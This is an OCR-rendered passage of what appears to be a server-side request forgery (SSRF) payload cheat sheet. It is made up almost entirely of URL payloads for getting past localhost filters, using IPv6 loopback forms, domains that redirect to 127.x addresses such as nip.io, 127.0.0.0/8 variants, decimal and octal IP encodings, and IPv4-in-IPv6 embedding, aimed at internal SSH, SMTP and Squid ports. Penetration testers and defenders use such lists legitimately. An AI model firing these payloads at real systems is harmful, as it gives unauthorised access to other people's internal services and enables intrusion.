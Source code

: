 ```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```powershell
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```

### Bypass localhost with a domain redirection

```powershell
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

The service nip.io is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass localhost with CIDR 

It's a /8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using a decimal IP location

```powershell
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

### Bypass using IPv6/IPv4 Address Embedding

[IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
```
